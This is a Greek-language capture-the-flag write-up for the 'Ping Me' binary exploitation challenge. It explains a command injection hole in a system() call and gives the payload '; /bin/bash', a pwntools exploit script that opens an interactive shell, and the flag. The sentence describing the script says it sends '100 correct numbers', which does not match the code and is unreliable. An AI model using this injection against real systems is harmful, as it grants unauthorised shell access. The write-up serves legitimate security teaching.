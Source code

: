 # Ping Me Write-Up

| Δοκιμασία | Ping Me |
| :-------- | :----------------- |
| Δυσκολία  | Εύκολη             |
| Κατηγορία | Εκμετάλλευση Δυαδικών αρχείων (Binary Exploitation) |
| Λύσεις    | 33                 |
| Πόντοι    | 100                |

## Περιγραφή Δοκιμασίας

Ping this, ping that, ping everything..


## Ανάλυση Δοκιμασίας

Στη δοκιμασία αυτή μας δίνεται ένα εκτελέσιμο αρχείο ping-me, το οποίο μας ζητά να εισάγουμε μια IP διεύθυνση. Αν η IP είναι έγκυρη, τότε το πρόγραμμα εκτελεί την εντολή ping σε αυτή τη διεύθυνση. Στη συνέχεια, αν η εντολή ping εκτελεστεί επιτυχώς, μας δίνεται η δυνατότητα να προσθέσουμε επιπλέον ορίσματα και να εκτελέσουμε μια νέα εντολή

Το βασικό ζήτημα ασφαλείας εδώ είναι ότι το πρόγραμμα χρησιμοποιεί τη συνάρτηση system(), κάτι που μπορεί να οδηγήσει σε command injection.

## Επίλυση

### Εύρεση Ευπάθειας

Αναλύοντας το αρχείο σε ένα decomplier μπορούμε να δούμε το ψευδοκώδικα του συστήματος.

Κοιτάζοντας τον κώδικα, βλέπουμε ότι υπάρχει ένας έλεγχος για να διασφαλιστεί ότι η διεύθυνση IP που εισάγουμε είναι έγκυρη, χρησιμοποιώντας regex

![alt text](images/image.png)

Η IP ελέγχεται με regex, ώστε να αποτραπεί η είσοδος μη έγκυρων διευθύνσεων.

Ωστόσο, αφού το ping εκτελεστεί με επιτυχία, το πρόγραμμα επιτρέπει στον χρήστη να εισάγει επιπλέον ορίσματα, χωρίς να γίνεται κανένας έλεγχος στο input!

![alt text](images/image-1.png)

Εδώ το πρόβλημα είναι ότι το snprintf εισάγει απευθείας το input του χρήστη μέσα σε μια εντολή shell (system(command)) χωρίς απολύτως καθόλου sanitization.

### Command Injection

Μπορούμε να εκμεταλλευτούμε αυτή την ευπάθεια με command injection, προσθέτοντας έναν διαχωριστή εντολών (;) και εκτελώντας οποιαδήποτε εντολή θέλουμε.

## Εκμετάλλευση της Ευπάθειας

Για να εκμεταλλευτούμε την ευπάθεια, μπορούμε να δώσουμε τα παρακάτω inputs στο πρόγραμμα:

- Βήμα 1: Εισάγουμε μια έγκυρη IP, π.χ., 127.0.0.1
- Βήμα 2: Όταν μας ζητηθεί να προσθέσουμε επιπλέον ορίσματα, εισάγουμε:
```bash
; /bin/bash
```

Ο διαχωριστής `;` κλείνει την εντολή ping και εκτελεί το /bin/bash, δίνοντάς μας shell access στο σύστημα.

### Αυτοματοποίηση της διαδικασίας με Exploit

Αντί να το κάνουμε χειροκίνητα, μπορούμε να αυτοματοποιήσουμε την επίθεση με το ακόλουθο script:

```python
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("./ping-me", checksec=False)

IP = "localhost"
PORT = 4242     

def start():
    return remote(IP, PORT) if args.REMOTE else process(elf.path)

def pwn():
    io = start()

    # Βήμα 1: Στέλνουμε μια έγκυρη IP
    io.sendline(b"127.0.0.1")
    sleep(3)

    # Βήμα 2: Κάνουμε command injection με "; /bin/bash"
    io.sendline(b"; /bin/bash")

    # Αλληλεπιδρούμε με το shell που αποκτήσαμε
    io.interactive()

if __name__ == "__main__":
    pwn()

```

Αυτό το script συνδέεται στο πρόγραμμα, παράγει τους 100 σωστούς αριθμούς και τους στέλνει αυτόματα.

## Ανάκτηση σημαίας

Αφού τρέξουμε το exploit remotely, αποκτούμε shell access και μπορούμε να ανακτήσουμε τη σημαία από το σύστημα.


## Σημαία

```
FLAG{1_d4r3_y0u_t0_p1ng_th3_un1v3rs3_4nd_c0nv1nc3_1t_t0_r3ply}
```
